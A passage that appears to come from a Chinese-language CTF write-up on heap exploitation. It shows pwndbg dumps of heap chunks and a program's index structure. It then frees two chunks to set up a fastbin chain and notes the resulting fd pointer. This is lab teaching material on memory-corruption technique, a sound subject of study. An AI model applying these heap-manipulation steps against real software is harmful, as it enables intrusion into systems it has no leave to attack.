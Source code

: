 执行完此payload之后的heap情况如下：

```c
pwndbg> x/50gx 0x555555757000
0x555555757000:	0x0000000000000000	0x0000000000000021 #index0
0x555555757010:	0x0000000000000000	0x0000000000000000
0x555555757020:	0x0000000000000000	0x0000000000000021 #index1
0x555555757030:	0x0000000000000000	0x0000000000000000
0x555555757040:	0x0000000000000000	0x0000000000000021 #index2
0x555555757050:	0x0000000000000000	0x0000000000000000
0x555555757060:	0x0000000000000000	0x0000000000000021 #index3
0x555555757070:	0x0000000000000000	0x0000000000000000
0x555555757080:	0x0000000000000000	0x0000000000000091 #index4
......（省略内容均为空）
0x555555757110:	0x0000000000000000	0x0000000000020ef1 #top_chunk
```

此时程序结构体中的情况：

```c
0x5fcead98720:	0x0000000000000000	0x0000000000000000
0x5fcead98730:	0x0000000000000001	0x0000000000000010
    			#index0
0x5fcead98740:	0x0000555555757010	0x0000000000000001
    								#index1
0x5fcead98750:	0x0000000000000010	0x0000555555757030
0x5fcead98760:	0x0000000000000001	0x0000000000000010
     			#index2
0x5fcead98770:	0x0000555555757050	0x0000000000000001
    								#index3
0x5fcead98780:	0x0000000000000010	0x0000555555757070
0x5fcead98790:	0x0000000000000001	0x0000000000000080
    			#index4
0x5fcead987a0:	0x0000555555757090	0x0000000000000000
0x5fcead987b0:	0x0000000000000000	0x0000000000000000
```

### 1-3、free创建的index1和index2
```c
#free两个,这时候会放到fastbins中,而且因为是后进的,所以
#fastbin[0]->index2->index1->NULL
free(1)
free(2)
```

执行此部分payload，来看一下堆状况：

```c
pwndbg> x/50gx 0x555555757000
0x555555757000:	0x0000000000000000	0x0000000000000021 #index0
0x555555757010:	0x0000000000000000	0x0000000000000000
0x555555757020:	0x0000000000000000	0x0000000000000021 #index1
0x555555757030:	0x0000000000000000	0x0000000000000000
0x555555757040:	0x0000000000000000	0x0000000000000021 #index2
0x555555757050:	0x0000555555757020	0x0000000000000000
    			#fd指针指向index1的起始地址
0x555555757060:	0x0000000000000000	0x0000000000000021 #index3
0x555555757070:	0x0000000000000000	0x0000000000000000
0x555555757080:	0x0000000000000000	0x0000000000000091 #index4
0x555555757090:	0x0000000000000000	0x0000000000000000
.....（省略内容均为空）
0x555555757110:	0x0000000000000000	0x0000000000020ef1 #top_chunk
.....（省略内容均为空）
pwndbg>
```
